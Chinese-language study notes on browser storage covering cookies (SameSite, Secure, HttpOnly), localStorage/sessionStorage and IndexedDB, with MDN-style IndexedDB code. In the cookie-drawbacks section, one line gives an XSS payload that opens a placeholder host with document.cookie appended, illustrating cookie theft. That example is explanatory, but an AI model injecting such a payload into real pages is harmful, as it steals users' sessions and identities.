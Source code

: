 # Storage

## cookie

### 目的

用于识别用户身份。

### 特点

* 4kb
* 发请求自动带上

### 原理

服务器返回setsCookie时，浏览器会记住cookie, 浏览器发送请求，cookie会被携带给服务器。 Cookie 执行同源策略，同一个 host 下的不同端口可以互相访问 Cookie。a与b只能访问自己的cookie，在a中内嵌c网页，并获取c的cookie，此时c cookie是a的第三方cookie。 **Chrome 更新 80后， SameSite 为`Lax`， 仅允许同站或者子站访问Cookie, 跨站（内嵌c无法访问cookie）需要SameSite `None`** Secure：只允许Https setCookie HttpOnly： 不允许JS访问ducoment.cookie， 只能由服务器setsCookie

```javascript
Set-Cookie: userId=123; SameSite=None; Secure; HttpOnly
```

### 应用

多用于广告服务。a通过内嵌网页向c发送请求，c返回cookie；b通过内嵌网页向c发送请求，并携带cookie，c获知用户身份，按喜好投放广告。

### 缺点

XSS攻击： 跨站脚本攻击， 利用用户对网页的信任。不设置HttpOnly，则用户能上传恶意代码，如： `<script>window.open("举个栗子.com?cookie=" + document.cookie</script>`，获取他人的cookie与身份。 CSRF\(Cross-site request forgery\): 跨站请求伪造，需要诱导点击，利用跨域发请求，携带cookie，完成非意愿的操作。

## storage

### 目的

弥补cookie太小

### 特点

* 10MB
* 使用 Key-Value 形式储存， 只能存字符串。
* 需要调用setItem, getItem, removeItem, clear。
* 增删改查为同步。

## IndexedDB

### 目的

弥补storage只能存字符串

### 特点

* 空间无限制。
* 能存对象，数字等。
* 增删改查都是异步。

  \[文档\] \([https://developer.mozilla.org/zh-CN/docs/Web/API/IndexedDB\_API/Using\_IndexedDB](https://developer.mozilla.org/zh-CN/docs/Web/API/IndexedDB_API/Using_IndexedDB)\)

IndexedDB 鼓励使用的基本模式如下所示：

```javascript
1. 打开数据库。
2. 在数据库中创建一个对象仓库（object store）。
3. 启动一个事务，并发送一个请求来执行一些数据库操作，像增加或提取数据等。
4. 通过监听正确类型的 DOM 事件以等待操作完成。
5. 在操作结果上进行一些操作


const dbName = "the_name";

var request = indexedDB.open(dbName, 2);

request.onerror = function(event) {
  // 错误处理
};
request.onsuccess = function(event) {
// 成功
  console.log(event.target.result)
};

// 当你创建一个新的数据库或者增加已存在的数据库的版本号（当打开数据库时，指定一个比之前更大的版本号）， onupgradeneeded 事件会被触发, onupgradeneeded 是我们唯一可以修改数据库结构的地方。
request.onupgradeneeded = function(event) {
  var db = event.target.result;

  // 建立一个对象仓库来存储我们客户的相关信息，我们选择 ssn 作为键路径（key path）
  // 因为 ssn 可以保证是不重复的
  // autoIncrement 自增
  var objectStore = db.createObjectStore("customers", { keyPath: "ssn", autoIncrement : true });

  // 建立一个索引来通过姓名来搜索客户。名字可能会重复，所以我们不能使用 unique 索引
  objectStore.createIndex("name", "name", { unique: false });

  // 使用邮箱建立索引，我们向确保客户的邮箱不会重复，所以我们使用 unique 索引
  objectStore.createIndex("email", "email", { unique: true });

  // 使用事务的 oncomplete 事件确保在插入数据前对象仓库已经创建完毕
  objectStore.transaction.oncomplete = function(event) {
    // 将数据保存到新创建的对象仓库
    var customerObjectStore = db.transaction("customers", "readwrite").objectStore("customers");
    // 增
    customerData.forEach(function(customer) {
      let add = customerObjectStore.add(customer);
      add.onsuccess = () => {}
      add.onerror = () => {}
    });
    // 改
    let put = customerObjectStore.put(data)
    put.onsuccess = () => {}
    put.onerror = () => {}
    // 删
    let remove = customerObjectStore.delete("444-44-4444")
    remove.onsuccess = () => {}
    remove.onerror = () => {}
    // 查
    let get = customerObjectStore.get("444-44-4444")
    get.onsuccess = () => {}
    get.onerror = () => {}
  };
};
```

